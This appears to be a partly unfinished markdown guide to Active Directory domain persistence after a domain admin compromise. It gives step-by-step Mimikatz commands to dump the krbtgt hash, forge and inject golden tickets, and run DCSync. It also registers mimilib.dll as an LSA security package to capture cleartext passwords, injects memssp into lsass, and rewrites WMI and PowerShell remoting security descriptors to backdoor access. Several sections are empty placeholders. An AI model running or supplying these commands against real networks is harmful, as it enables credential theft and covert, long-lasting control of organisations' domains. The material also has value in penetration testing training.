

# Domain Persistence

Once we get the domain admin priviledges, how can be make sure to keep those priviledges, we will look at the following priviledges persistence techniques.

1. Golden Ticket
2. Dsync Attack
3. Silver Ticket
4. Skeleton Key
5. DSRM
6. Custom SSP
7. Domain Persistence using ACLs - AdminSDHolder
8. Persistence using ACLs - Rights Abuser
9. Persistence using ACLs - Security Descriptors
10. Persistence using ACLs - Security Descriptors - Remote Registry

We will be exploiting Kerberos for this:

#### Kerberos

\*\*\*\*[**What is Kerberos and how does it works?** ](https://medium.com/@dewni.matheesha/kerberos-the-computer-network-authentication-protocol-a198309339b7) ****Kerberos is an authentication protocol that is used to verify the identity of a user or host. The Windows Server operating systems implement the Kerberos version 5 authentication protocol and extensions for public key authentication, transporting authorization data, and delegation.

**How Kerberos normal workflow can be abused for different types of attack?**

The kerberos attack is not fully secure and it has the following drawbacks which can be exploited by an attacker 

1. Microsoft doesn’t salt the hashes used for long term secret keys. The lack of salt means that any operation requiring the key can simply use the hashed version of the password instead of requiring the actual password being used. This allows the so called “pass-the-hash” attacks. From an attacker’s perspective, this means that if the password hashes for the domain can be recovered, then TGTs can be forged using the KRBTGT hash.
2. KRBTGT password is the only password in the entire active directory that never automatically changes.
3. If an attacker can compromise the KDC and recover the KRBTGT hash, then with limited information, an attacker can generate arbitrary TGTs for Kerberos ****principals in the domain.

Having a brief background on the kerberos, lets start our domain persistence attacks.

### Golden Ticket

Golden tickets are fully functional TGTs. This means that they can be passed and used for any service that uses Kerberos to authenticate. The TGS will process TGTs and issue service tickets blindly trusting the information in the TGT. Elevated privileges are NOT required to insert a "golden ticket" into memory. Also, by default the lifetime on a "golden ticket" is 10 years.

The "golden tickets" can be used to bypass existing Kerberos encryption policy requirements.

The "golden tickets" does not have any advanced account policy settings enabled. All additional security settings, such as logon hours or authentication silos are disabled. Microsoft has added a feature to validate service ticket requests to ensure that disabled TGTs cannot be used to get service tickets. However, the implementation is problematic. The TGS will only check the validity of the TGT if the age of the TGT is more than 20 minutes. If the TGT age is less than 20 minutes old, the TGS will issue the service ticket, which by default has a 10 hour lifetime. -- Since an attacker can use Mimikatz to generate as many tickets as they want, this 20 minute limit is nothing to be concerned with as an attacker can simply flush an old TGT and replace it with a new one lessthan 20 minutes old.

The "golden ticket" can be configured for an arbitrary user and arbitrary group membership. This will allow a ticket to be created where any user can be a member of any particular group. This can be used to bypass any sort of group-based access restrictions on file servers or other applications. The users and SIDs used in the creation of the golden ticket do not have to exist in AD. This means that TGTs can be created for non-existent users in the domain and can still getservice tickets from the TGS within the first 20 minutes of the TGT lifetime.

The golden ticket attack can be performed using Mimikatz. It can be downloaded from [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1).

First requirement is that we should have local admin access on the machine. We can check the local admin access using the following command.

```text
Find-LocalAdminAccess
```


Run the following command to grab the sid of the administrator as it will be used later to perform the golden ticket attack.

```text
Get-NetUser | select name, objectsid
```


Now execute the following command to run mimikatz on the computer with the local admin priveledge

```text
$sess = New-PSSession -ComputerName WIN-QFAUFPLUUNJ.ps.local
Invoke-Command -Session $sess -FilePath ./InvokeMimikatz.ps1
Enter-PSSession -Session $sess
```


Once the session has been established, the Invoke-Mimikatz.ps1 script is loaded in the session and its commandlets can be called.

To grab the NTLM hash of KRGBT user, run the following command

```text
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```


Now to perform the golden ticket attack, use the following command, replace the sid and krbtgt NTLM hash with the ones you got using the above steps.

```text
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:ps.local /sid:S-1-5-21-3416732286-1128592028-3096220582-500 /krbtgt:358585ea86ddbbdd30d2dc4c81d605ee id:500  /groups:512 /startoffset:0 /endin:600 /renewmax;10080 /ptt"'

```

Breakdown of the command 

* Invoke-Mimikatz -Command :- name of the commandlet from the Invoke-Mimikatz script
* kerberos::golden :- name of the module
* /User:Administrator :- Username for which the TGT is generated
* /domain:ps.local :- Domain FQDN
* /sid:S-1-5-21-3416732286-1128592028-3096220582-500 :- SID of the domain
* /krbtgt:358585ea86ddbbdd30d2dc4c81d605ee :- NTLM \(RC4\) hash of the krbtgt account. Use /aes128 and /aes256 for the AES keys.
* id:500 :- optional userid
* /groups:512 :- optional group id
* /ptt :- Injects the ticket in current powershell process -no need to save the ticket on the disk
* /ticket :- saves the ticket to a file for later user
* /startooffset:0 :- Optional when the ticket is available \(default 0 - right now\) in minutes. Use negative for a ticket available from past and a larger number in future
* /endin:600 :- Optional ticket lifetime \(default in 10 years\) in minutes. The defauld AD setting is 10 hours = 600 minutes
* /renewmax:100800 :- Optional ticket lifetime with renewal \(default is 10 years\) in minutes. The default AD settings is 7 days = 100800


to check the cached tickets run the following command

```text
klist
```


To check whether the admin service is accessible or not run the following command

```text
ls \\WIN-QFAUFPLUUNJ.ps.local\c$
```


### DCSync Attack

[DCSync](https://attack.stealthbits.com/privilege-escalation-using-mimikatz-dcsync) is a late-stage kill chain attack that allows an attacker to simulate the behavior of Domain Controller \(DC\) in order to retrieve password data via domain replication. Once an attacker has access to a privileged account with domain replication rights, the attacker can utilize replication protocols to mimic a domain controller.

Execute the following command 

```text
Invoke-Mimikatz -Command '"lsadump:dcsync /user:server1\krbtgt"'
```


### Silver Ticket

About silver ticket


### Skeleton Key

something about skeleton key


### DSRM

somethign about DSRM




### Custom SSP

Security Support Provider \(SSP\) is a DLL which provides ways for an application to obtain an authenticated connection. Some SSP packages by microsoft are

* NTLM
* Kerberos
* Wdigest
* CredSSP

Mimikatz provides a custom SSP - **mimilib.dll**. This SSP logs local logons, service account and machine account password in clear text on the target server.

Two ways to implement 

Pickup mimilib.dll from mimikatz repository and drop it to the system32 directory and add mimilib to "HKLM\SYSTEM CurrentControlSet\Control\Lsa\Security Packages" 

Sample Code: 

```text
$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig -Name 'Security Packages' | select -ExpandProperty 'Security Packages' $packages += "mimilib"

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages
```

Using mimikatz, inject into lsass \(not stable with Server 2016\):

```text
Invoke-Mimikatz -Command '"misc::memssp"'
```

### Persistence Using ACLs - AdminSDHolder & Rights Abusers

// to do

### Persistence Using ACLs - Security Descriptors

It is possible to modify Security Descriptors \(security information like Owner, primary group, DACL and SACL\) of multiple remote access methods \(securable objects\) to allow access to non-admin users. Administrative privileges are required for this.

Security Descriptor Definition Language defines the format which is used to describe a security descriptot. SDDL uses ACE strings for DACL and SACL: ace\_type; ace\_flags; rights; object\_guid; inherit\_object-guid; account\_sid

ACE for build-in admininstrators for WMI namespaces A;Cl;CCDCLCSWRPWPRCWD;;SID

Lets see how this attack is performed. Running the following command with the user not having enough privileges gives the following errors.

```text
Get-wmiobject -class win32_operatingsystem -ComputerName WIN-670U2C077D3.server1.ad.local
```


To get user persistence with security descriptors, follow the following steps \(assuming admin priviledge is already there\)


These things can also be performed using scripts using Set-RemoteWMI.ps1. ACLs can be modified to allow non-admin users access to securable objects. To remove the permission added using the script, 

```text
On local machine for user1:
Set-RemoteWMI -UserName user1 -Verbose

On remote machine for user1 without explicit credentials:
Set-RemoteWMI -UserName user1 -ComputerName WIN-670U2C077D3.ad.local -namespace 'root\cimv2' -Verbose

On remote machine with explicit credentials. Only root\cimv2 and nested namespaces:
Set-RemoteWMI -UserName user1 -ComputerName WIN-670U2C077D3.ad.local -Credential Administrator -namespace 'root\cimv2' -Verbose

On remote machine remove permissions:
Set-RemoteWMI -UserName user1 -ComputerName WIN-670U2C077D3.ad.local -namespace 'root\cimv2' -Remove -Verbose

```

**Using PowerShell Remoting**

```text
On local machine for user1:
Set-RemotePSRemoting -UserName user1 -Verbose

On remote machine for user1 without credentials:
Set-RemotePSRemoting -UserName user1 -ComputerName WIN-670U2C077D3.ad.local -Verbose

On remote machine, remove permissions:
Set-RemotePSRemoting -UserName user1 -ComputerName WIN-670U2C077D3.ad.local -Remote
```


